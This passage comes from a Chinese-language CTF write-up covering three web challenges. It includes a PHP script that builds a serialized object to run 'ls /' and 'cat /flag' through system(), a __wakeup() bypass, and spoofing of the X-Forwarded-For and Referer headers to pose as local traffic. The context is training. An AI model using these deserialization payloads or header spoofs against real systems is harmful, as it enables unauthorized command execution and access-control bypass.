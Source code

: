 ![截图](https://nssctf.wdf.ink/img/yxy/02c41db974d86f4279e4173765d6d0d9.png)

发现flag，修改可变函数参数为`cat /flag`，再绕过__wakeup()，urlencode一下，解出

<br/>

### 1z_unserialize

非常简单的反序列化

按照一般思路，先看看根目录，再做处理

参考前文 **ez_1zpop** ，直接构造exp

```php
<?php
 
class lyh
{
    public $url;
    public $lt;
    public $lly;
}

$a = new lyh;
$a -> lt = "system"; //可变函数的函数名
$a -> lly = "ls /"; //可变函数的参数

echo serialize($a);
 
?> 
```

![截图](https://nssctf.wdf.ink/img/yxy/3d253bdc5e7a60068a4883c172858161.png)

发现flag，打开即可

![截图](https://nssctf.wdf.ink/img/yxy/9df8b9868b3c6b2ee9308fada999f398.png)

<br/>

### xff

“我是本地人”这句话很xff

考点：==XFF== ==Referer==

xff，即X-Forwarded-For，添加到header中，告诉对面这边的真实IP，通过伪造XFF可以骗过对面，让对面觉得自己就是本地访问（当然检测本地访问不止这一条路）

![截图](https://nssctf.wdf.ink/img/yxy/1fd10d400eb8a80302a5b86eceb386d0.png)

jump from，想到Referer，表示你从哪儿来的

![截图](https://nssctf.wdf.ink/img/yxy/e699d6c802dd47d9ae460abb862599f5.png)

得到flag
